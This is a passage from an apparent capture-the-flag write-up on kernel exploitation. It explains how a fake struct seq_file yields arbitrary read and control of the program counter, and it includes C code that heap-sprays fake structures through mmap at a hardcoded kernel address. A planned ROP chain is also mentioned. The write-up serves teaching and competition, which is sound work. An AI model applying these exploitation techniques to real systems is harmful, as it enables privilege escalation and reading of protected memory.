 So, our objective is to just run `cat /dev/sdb` as root.


## The struct seq_file

The `struct seq_file` has a relatively simple layout:
```c
struct seq_file {
    char *buf;                        // Pointer to a buffer
...                                   // A bunch of size_t integers
    const struct seq_operations *op;  // Pointer to seq_operations
...
};
```

I've only included the really important members here.
The `buf` member is a pointer to a buffer which is essentially used for buffering some data.
The `op` member points to a `struct seq_operations` which is a struct of function pointers.

With a fake `struct seq_file`, we can control the `buf` pointer and the `op` pointers which would theoretically provide us with PC control and arbitrary read primitives.

## Strategy

For some reason, I found that the flag was in the memory of my VM.
I could see it when I ran `search-pattern FLAG` in GDB.
So my idea was to just read the memory of the kernel to find the flag.
And so I spent some time working on the arbitrary read primitive.


At the same time, @zolutal and @dbena were not able to find the flag in memory on their machines (I have no idea why), and so they were working on a ROP chain to call `cat /dev/sdb` which would be invoked using the PC control primitive.
However, since we did not have a kernel text leak, this would have to involve some brute-forcing.
According to @zolutal, this would be a 1/512 chance of success.

## Arbitrary read

### Heap spray
In order to craft a fake `struct seq_file` and overwrite the `private_data` pointer to this fake structure, I needed to first make sure that the fake structure would be present at some offset from the leaked `private_data` pointer.

@zolutal suggested that simply creating a bunch of mmaped pages and filling them with fake `struct seq_file` structures would be a good way to do this.
And so I ended up with this code to do the heap spray:
```c
  // This is where I found the flag in memory using GDB
  size_t flag_addr = 0xffff888002ede000;

  // Spray fake seq structures
  // Two 0xdeadbeefcafebabe values are for me to find the sprayed structures in memory
  seq_t fake_seq = {(void *)flag_addr, 0x100, 0, 0, 0, 0, 0, NULL, (void *)0xdeadbeefcafebabe, 0, NULL, (void *)0xdeadbeefcafebabe};

  int i = 0;
  for (i = 0; i < 5000; i++) {
    seq_t *spray = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    if (spray == MAP_FAILED) {
      perror("mmap");
      return 1;
    }
    memcpy((void *)spray, (void *)&fake_seq, sizeof(seq_t));
  }

  puts("Finished spray");
```